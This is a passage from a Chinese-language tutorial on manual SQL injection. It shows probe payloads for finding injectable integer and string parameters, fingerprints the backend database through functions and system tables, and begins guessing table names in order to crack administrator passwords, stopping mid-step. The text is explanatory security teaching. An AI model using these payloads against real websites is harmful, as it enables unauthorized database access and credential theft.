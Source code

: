    - 整数型参数

     ```sql
     SELCET * FROM some_table WHERE some_rec = yyy
     ```

     - `yyy` -> `yyy'`：返回错误提示信息
     - `yyy` -> `yyy and 1=1`：返回正常页面
     - `yyy` -> `yyy and 1=2`：返回空白页面或错误提示信息

     如果满足以上三种情况，存在注入点。

   - 字符型参数

     ```sql
     SELCET * FROM some_table WHERE some_rec = 'yyy'
     ```
     
     - `yyy` -> `yyy'`：返回错误提示信息
     - `yyy` -> `yyy' and '1'='1`：返回正常页面
     - `yyy` -> `yyy' and '1'='2`：返回空白页面或错误提示信息

     如果满足以上三种情况，存在注入点。

2. 判断后台数据库类型

   - 利用数据库特有函数进行判断
     - SQL Server：使用 `@@version` 查看版本，`db_name()` 查看当前数据库名
     - MySQL：使用 `version()` 查看版本，`database()` 查看当前数据库名
     - Oracle：使用 `sysdate` 获取系统时间，`user` 获取当前用户

   - 利用数据库服务器的系统变量进行判断

     - SQL Server: `user`, `db_name()`

       ```url
       http://SITE/xxx.asp?some_rec = yyy and db_name()>0
       ```

     - MySQL: `basedir`

   - 利用数据库服务器的系统表进行判断

     ```url
     http://SITE/xxx.asp?some_rec = yyy and (select count (*) from sysobjects)>0
     http://SITE/xxx.asp?some_rec = yyy and (select count (*) from msysobjects)>0
     ```

     - SQL Server: 第一条请求 URL 运行正常，第二条异常
     - ACCESS: 两条都异常，因为在 Web 环境下没有对 `msysobjects` 系统表的访问权限

3. 后台数据库中管理员口令字猜解

   - 猜解表名

     ```url
     http://SITE/xxx.asp?some_rec = yyy and (select count (*) from guessed_tbl_name)>0
     ```

   - 猜解字段名
